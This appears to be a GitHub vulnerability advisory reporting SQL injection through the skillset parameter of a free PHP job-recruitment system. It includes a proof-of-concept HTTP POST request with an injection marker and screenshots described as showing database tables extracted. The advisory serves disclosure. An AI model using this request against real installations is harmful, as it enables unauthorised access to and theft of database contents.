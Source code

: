 # job-recruitment-in-php has sql injection vulnerability in skillset parameter

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
skillset parameter. 



## describe

An unrestricted SQL injection attack exists in a job-recruitmentsystem. The parameters that can be controlled are as follows: skillset parameter This function executes the skillset parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter value of skillset is obtained in add_xp action , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20241224233706289](https://github.com/user-attachments/assets/abdec9d4-df82-4273-bdec-3b84eb918e38)



## POC

```
POST /_parse/_all_edits.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencodedz
Content-Length: 17
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=8dupfdh7itn07vib4qplosg4dv
Upgrade-Insecure-Requests: 1
Priority: u=0, i

skillset%5B%5D=1*
```

**Result**

![image-20241224233632120](https://github.com/user-attachments/assets/a4642677-e12b-4e60-920f-90593e150d48)

Get tables

![image-20241213201627253](https://github.com/user-attachments/assets/4314c675-b9dd-4809-9aca-eb525b3e3326)

**Discover**

西安电子科技大学： 李腾，谢亚轩，刘芮彤